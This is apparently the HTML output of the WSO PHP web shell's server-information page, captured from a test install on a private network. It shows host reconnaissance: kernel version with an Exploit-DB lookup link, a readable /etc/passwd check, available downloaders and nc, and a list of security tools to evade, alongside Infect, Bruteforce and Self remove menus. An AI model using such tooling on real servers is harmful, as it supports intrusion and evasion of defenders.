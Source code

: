 	</form><table class=info cellpadding=3 cellspacing=0 width=100%><tr><td width=1><span>Uname:<br>User:<br>Php:<br>Hdd:<br>Cwd:</span></td><td><nobr>Linux ubuntu 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:16:20 UTC 2015 x86_64 <a href="http://noreferer.de/?http://www.google.com/search?q=Linux+ubuntu+3.19.0-25-generic+%2326%7E14.04.1-Ubuntu+SMP+Fri+Jul+24+21%3A16%3A20+UTC+2015+x86_64" target="_blank">[ Google ]</a> <a href="http://noreferer.de/?http://www.exploit-db.com/search/?action=search&description=Linux+Kernel+3.19.0" target=_blank>[ Exploit-DB ]</a></nobr><br>33 ( www-data ) <span>Group:</span> 33 ( www-data )<br>5.5.9-1ubuntu4.19 <span>Safe mode:</span> <font color=#FFDB5F><b>OFF</b></font> <a href=# onclick="g('Php',null,null,'info')">[ phpinfo ]</a> <span>Datetime:</span> 2016-10-26 20:44:29<br>18.58 GB <span>Free:</span> 13.12 GB (70.63%)<br><a href='#' onclick='g("FilesMan","/")'>/</a><a href='#' onclick='g("FilesMan","/var/")'>var/</a><a href='#' onclick='g("FilesMan","/var/www/")'>www/</a><a href='#' onclick='g("FilesMan","/var/www/html/")'>html/</a><a href='#' onclick='g("FilesMan","/var/www/html/webshell-master/")'>webshell-master/</a><a href='#' onclick='g("FilesMan","/var/www/html/webshell-master/php/")'>php/</a><a href='#' onclick='g("FilesMan","/var/www/html/webshell-master/php/wso/")'>wso/</a> <font color=#FFDB5F><b>drwxrwxrwx</b></font> <a href=# onclick="g('FilesMan','/var/www/html/webshell-master/php/wso','','','')">[ home ]</a><br></td><td width=1 align=right><nobr><label><select onchange="g(null,null,null,null,null,this.value)"><option value="UTF-8" selected>UTF-8</option><option value="Windows-1251" >Windows-1251</option><option value="KOI8-R" >KOI8-R</option><option value="KOI8-U" >KOI8-U</option><option value="cp866" >cp866</option></select></label><br><span>Server IP:</span><br>192.168.182.142<br><span>Client IP:</span><br>192.168.182.1</nobr></td></tr></table><table style="background-color:#2E6E9C;" cellpadding=3 cellspacing=0 width=100%><tr><th>[ <a href="#" onclick="g('SecInfo',null,'','','')">Sec. Info</a> ]</th><th>[ <a href="#" onclick="g('FilesMan',null,'','','')">Files</a> ]</th><th>[ <a href="#" onclick="g('Console',null,'','','')">Console</a> ]</th><th>[ <a href="#" onclick="g('Infect',null,'','','')">Infect</a> ]</th><th>[ <a href="#" onclick="g('Sql',null,'','','')">Sql</a> ]</th><th>[ <a href="#" onclick="g('Php',null,'','','')">Php</a> ]</th><th>[ <a href="#" onclick="g('SafeMode',null,'','','')">Safe mode</a> ]</th><th>[ <a href="#" onclick="g('StringTools',null,'','','')">String tools</a> ]</th><th>[ <a href="#" onclick="g('Bruteforce',null,'','','')">Bruteforce</a> ]</th><th>[ <a href="#" onclick="g('Network',null,'','','')">Network</a> ]</th><th>[ <a href="#" onclick="g('Logout',null,'','','')">Logout</a> ]</th><th>[ <a href="#" onclick="g('SelfRemove',null,'','','')">Self remove</a> ]</th></tr></table><div><h1>Server security information</h1><div class=content><span>Server software: </span>Apache/2.4.7 (Ubuntu)<br><span>Loaded Apache modules: </span>core, mod_so, mod_watchdog, http_core, mod_log_config, mod_logio, mod_version, mod_unixd, mod_access_compat, mod_alias, mod_auth_basic, mod_authn_core, mod_authn_file, mod_authz_core, mod_authz_host, mod_authz_user, mod_autoindex, mod_deflate, mod_dir, mod_env, mod_filter, mod_mime, prefork, mod_negotiation, mod_php5, mod_setenvif, mod_socache_shmcb, mod_ssl, mod_status<br><span>Disabled PHP Functions: </span>pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,<br><span>cURL support: </span>no<br><span>Supported databases: </span>MySql (5.5.50)<br><br><span>Readable /etc/passwd: </span>yes <a href='#' onclick='g("FilesTools", "/etc/", "passwd")'>[view]</a><br><span>Readable /etc/shadow: </span>no<br><span>OS version: </span>Linux version 3.19.0-25-generic (buildd@lgw01-20) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #26~14.04.1-Ubuntu SMP Fri Jul 24 21:16:20 UTC 2015<br><span>Distr name: </span>Ubuntu 14.04.3 LTS<br><br><span>Userful: </span>gcc, lcc, cc, ld, make, php, perl, python, ruby, tar, gzip, bzip, bzip2, nc, locate, suidperl<br><span>Danger: </span>kav, nod32, bdcored, uvscan, sav, drwebd, clamd, rkhunter, chkrootkit, iptables, ipfw, tripwire, shieldcc, portsentry, snort, ossec, lidsadm, tcplodg, sxid, logcheck, logwatch, sysmask, zmbscap, sawmill, wormscan, ninja<br><span>Downloaders: </span>wget, fetch, lynx, links, curl, get, lwp-mirror<br><br/><span>HDD space: </span><pre class=ml1>Filesystem      Size  Used Avail Use% Mounted on
	/dev/sda1        19G  4.5G   14G  26% /
	none            4.0K     0  4.0K   0% /sys/fs/cgroup
	udev            982M  4.0K  982M   1% /dev
	tmpfs           199M  1.5M  198M   1% /run
	none            5.0M     0  5.0M   0% /run/lock
	none            993M  284K  993M   1% /run/shm
	none            100M   64K  100M   1% /run/user</pre><span>Hosts: </span><pre class=ml1>127.0.0.1	localhost
	127.0.1.1	ubuntu
	